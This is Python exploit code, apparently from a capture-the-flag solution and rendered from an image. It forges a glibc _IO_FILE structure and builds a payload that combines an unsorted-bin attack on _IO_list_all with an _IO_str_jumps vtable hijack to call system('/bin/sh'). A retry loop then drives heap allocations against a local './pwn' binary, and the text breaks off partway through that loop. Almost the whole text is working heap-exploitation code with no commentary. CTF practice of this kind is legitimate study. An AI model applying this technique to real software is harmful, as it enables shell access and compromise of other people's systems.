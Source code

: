 ```python
              _IO_buf_end = 0,
              _IO_save_base = 0,
              _IO_backup_base = 0,
              _IO_save_end = 0,
              _IO_marker = 0,
              _IO_chain = 0,
              _fileno = 0,
              _lock = 0,
              _wide_data = 0,
              _mode = 0):
    file_struct = p32(_flags) + \
            p32(0) + \
            p64(_IO_read_ptr) + \
            p64(_IO_read_end) + \
            p64(_IO_read_base) + \
            p64(_IO_write_base) + \
            p64(_IO_write_ptr) + \
            p64(_IO_write_end) + \
            p64(_IO_buf_base) + \
            p64(_IO_buf_end) + \
            p64(_IO_save_base) + \
            p64(_IO_backup_base) + \
            p64(_IO_save_end) + \
            p64(_IO_marker) + \
            p64(_IO_chain) + \
            p32(_fileno)
    file_struct = file_struct.ljust(0x88, "\x00")
    file_struct += p64(_lock)
    file_struct = file_struct.ljust(0xa0, "\x00")
    file_struct += p64(_wide_data)
    file_struct = file_struct.ljust(0xc0, '\x00')
    file_struct += p64(_mode)
    file_struct = file_struct.ljust(0xd8, "\x00")
    return file_struct

def finalonegadget(libc,libcbase):
    _IO_list_all_ptr = libc.symbols['_IO_list_all'] + libcbase
    _IO_str_jumps_addr = libc.symbols['_IO_file_jumps'] + 0xc0 + libcbase
    binshaddr = libcbase + libc.search('/bin/sh').next()
    sysaddr = libcbase + libc.symbols['system']
    payload = pack_file(_flags = 0,
                        _IO_read_ptr = 0x61, #smallbin[4] 0x60 offset
                        _IO_read_base = _IO_list_all_ptr-0x10, # unsorted bin attack _IO_list_all_ptr,
                        _IO_write_base = 2,
                        _IO_write_ptr = 3,
                        _IO_buf_base = binshaddr,
                        _mode = 0,
                        )
    payload += p64(_IO_str_jumps_addr-0x8) # vtable @ offset 0xd0
    payload += p64(0) 
    payload += p64(sysaddr)  # offset 0xe0+8
    return payload
n=0
while n<9999:
	try:
		io = process('./pwn')
		add('aaa',0x80,'b'*0x61)
		add('bbb',0x500,'1')
		add('ccc',0x80,'2')
		add('ccc',0x300,'3')
		#add('ccc',0x80,'4')
		#add('ccc',0x80,'5')
```